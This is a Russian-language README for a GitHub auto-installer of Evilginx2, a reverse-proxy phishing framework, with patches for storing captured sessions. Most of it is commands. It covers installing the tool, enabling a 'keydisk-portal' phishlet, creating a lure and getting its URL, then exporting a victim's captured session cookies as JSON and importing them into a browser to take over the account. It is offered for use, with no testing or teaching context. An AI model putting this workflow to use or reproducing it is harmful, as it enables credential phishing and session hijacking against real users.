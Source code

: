 # 🔥 AKUMA EvilGinx2 AutoInstaller

**Автоматический установщик Evilginx2 с исправлениями для надежного сохранения сессий**

## ⚡ Быстрая установка
```bash
git clone https://github.com/sweetpotatohack/AKUMA-EvilGinx2-AutoInstaller.git
cd AKUMA-EvilGinx2-AutoInstaller
sudo bash install_evilginx2.sh
```

## 🚀 Особенности
- ✅ Исправлена проблема сохранения сессий в базе данных
- ✅ Точный формат cookies для StorageAce extension  
- ✅ Удобные команды для работы с сессиями
- ✅ Автоматическое применение всех исправлений

## 🎯 Основные команды
```bash
evilginx-manager                # Интерактивный менеджер
evilginx-sessions              # Показать все сессии
evilginx-sessions 1            # Детали сессии ID 1
evilginx-copy-cookies 1        # Скопировать cookies для импорта
```

## 🍪 Импорт cookies в браузер
1. Установите StorageAce extension
2. Выполните: `evilginx-copy-cookies 1`  
3. Откройте сайт в браузере
4. StorageAce → Cookies → Import → вставьте JSON

## 🔧 Полный рабочий процесс
```bash
# 1. Установка
sudo bash install_evilginx2.sh

# 2. Запуск
sudo evilginx-manager interactive

# 3. В evilginx2: настройка
phishlets enable keydisk-portal
lures create keydisk-portal
lures get-url 0

# 4. После захвата сессии
evilginx-copy-cookies 1
# Импорт в StorageAce
```

**Теперь сессии надежно сохраняются!**
